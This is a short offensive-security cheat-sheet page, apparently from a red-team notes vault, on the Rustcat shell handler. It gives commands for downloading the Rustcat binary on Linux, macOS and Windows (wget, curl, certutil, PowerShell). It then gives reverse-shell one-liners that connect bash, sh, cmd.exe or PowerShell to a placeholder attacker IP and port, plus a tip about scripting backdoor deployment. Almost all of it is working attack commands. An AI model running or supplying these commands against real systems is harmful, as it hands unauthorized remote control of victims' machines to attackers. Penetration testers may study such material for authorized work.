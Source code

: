```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - cross-platform
  - rustcat
---
```

# Rustcat

## 01 - Download Pre-compiled Payload

> [!TIP]
> You can make an automated script to deploy a trojan horse or backdoor during the initial access and maintaining access.

### 1.1 - Linux

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-linux-x86_64
```

### 1.2 - OSX

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-aarch64
```

```
$ wget -qO rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64

$ curl -so rcat https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-darwin-x86_64
```

### 1.3 - Windows

```
C:\> certutil.exe -urlcache -split -f https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe rcat.exe

C:\> curl.exe -o rcat.exe https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe
```

```
PS C:\> Invoke-WebRequest -Uri https://github.com/robiot/rustcat/releases/download/v3.0.0/rcat-v3.0.0-win-x86_64.exe -OutFile rcat.exe
```

## 02 - Reverse Shell

```
$ ./rcat c -s </bin/sh | /bin/bash> <attacker_IP> <attacker_PORT>
```

```
C:\> .\rcat.exe c -s <cmd.exe | powershell.exe> <attacker_IP> <attacker_PORT>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Shell Handler/Cross Platform/Manual/Netcat Variants/Rustcat]]
